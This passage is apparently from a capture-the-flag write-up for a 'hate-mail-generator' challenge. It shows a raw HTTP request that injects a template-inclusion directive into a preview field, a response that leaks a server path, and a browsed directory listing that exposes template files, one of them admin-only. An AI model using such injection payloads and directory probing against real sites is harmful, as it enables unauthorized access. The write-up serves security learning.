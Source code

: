 **Request**

```http
POST /hate-mail-generator/new/preview HTTP/1.1
Host: hackyholidays.h1ctf.com
Connection: close
Content-Length: 172
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://hackyholidays.h1ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://hackyholidays.h1ctf.com/hate-mail-generator/new
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

preview_markup=Hello+%7B%7Bname%7D%7D+%7B%7Btemplate%3Aindex.html%7D%7D+%7B%7Bemail%7D%7D&preview_data=%7B%22name%22%3A%22Alice%22%2C%22email%22%3A%22alice%40test.com%22%7D
```

**Response**

```http
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 31 Dec 2020 11:55:18 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 47

Cannot find template file /templates/index.html
```

+ In the response we got a response as "Cannot find template file /templates/index.html", which means there must be a path "templates" after "hate-mail-generator".

+ Without bruteforcing and checking directly - https://hackyholidays.h1ctf.com/hate-mail-generator/templates/ and got the directory preview with html files

**Request**

https://hackyholidays.h1ctf.com/hate-mail-generator/templates/ 

**Response**

{F1139430}

```
Index of /hate-mail-generator/templates/

../
cbdj3_grinch_header.html                                     20-Apr-2020 10:00                   -
cbdj3_grinch_footer.html                                     20-Apr-2020 10:00                   -
38dhs_admins_only_header.html                                21-Apr-2020 15:29                  46
```
